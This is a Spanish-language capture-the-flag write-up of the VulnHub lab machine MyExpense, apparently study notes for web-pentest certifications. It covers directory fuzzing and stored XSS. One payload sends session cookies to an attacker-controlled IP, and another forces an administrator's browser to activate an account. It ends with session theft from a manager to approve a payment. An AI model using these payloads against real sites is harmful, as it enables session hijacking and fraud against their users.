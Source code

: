 # MyExpense

- Máquina de vulnhub, para practicar XSS y SQL Injection  
- Descarga: <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense</a>

### Antecedentes
Tenemos un usuario llamado Samuel, que ha sido despedido de la empresa y le deben todavía 750€ de un viaje que hizo. Para cobrarlo, debemos hacer la solicitud a través de la web pero nuestro usuario ha sido eliminado o deshabilitado. Nuestra misión es intentar loguearnos y conseguir cobrar esa cantidad.  
Your credentials were: samuel/fzghn4lw

### Accediendo a la web
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense1.jpg?raw=true">
Introducimos la url en el navegador y vamos al apartado para crear una cuenta. El botón de crear cuenta está bloqueado, así que inspeccionamos el codigo fuente y desbloqueamos el botón eliminando la línea **disabled**

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense2.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense3.jpg?raw=true">

Intentamos hacer login pero nuestra cuenta está deshabilitada

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense4.jpg?raw=true">

### Fuzzing

Hacemos fuzzing con gobuster y encontramos la carpeta admin

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense5.jpg?raw=true">

seguimos fuzzeando y encontramos admin.php y accedemos. Vemos que aparece un panel con los datos de usuarios, y Samuel y los usuarios creados están deshabilitados. no se pueden deshabilitar. solo puede un administrador.

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense6.jpg?raw=true">


### XSS 
En formulario de creación de usuarios se ha detectado que se puede hacer XSS, con lo que con suerte, podremos robar la cookie de sesión del Administrador.  

Ponemos a la escucha con netcat en kali:  
```
python3 -m http.server 80
```

Introducimos el siguiente codigo en el formulario, por ejemplo en el campo de apellido:
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense7.jpg?raw=true">
```
#XSS Payload
<script>img = new Image(); img.src = "http://192.168.43.57/a.php?"+document.cookie;</script>
```
Hemos recibido la cookie!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense8.jpg?raw=true">

Pero no nos sirve porque no puede estar el administrador logueado en 2 equipos distintos a la vez. Así que hay que forzar a que el administrador utilice el botón para activar el usuario.  
Si nos fijamos al clicar el boton, es simplemente una acción que lleva a una URL, probaremos a meter esa url en el código XSS
Para ello volvemos a crear otro usuario y en el apellido, por ejemplo. Metemos el siguiente código:  

```
# XSS Payload
<script>document.write('<img src="http://192.168.56.104/admin/admin.php?id=11&status=active"/>');</script>

```
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense9.jpg?raw=true">
esperamos un poco y voilá! se activó!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense10.jpg?raw=true">

### Enviando la solicutid de pago
Una vez en el perfil de Samuel, aceptamos el envío de la solicitud de los 750€. Parece que el manager Manon Riviere debe aprobar esto. para ello deberemos robarle la sesión.  
Parece que tienen un chat en común, así que aprovecharemos el textbox para hacer un robo de sesión con cookies.  
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense11.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense12.jpg?raw=true">

Una vez en el perfil, aceptamos la solicitud.
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense13.jpg?raw=true">


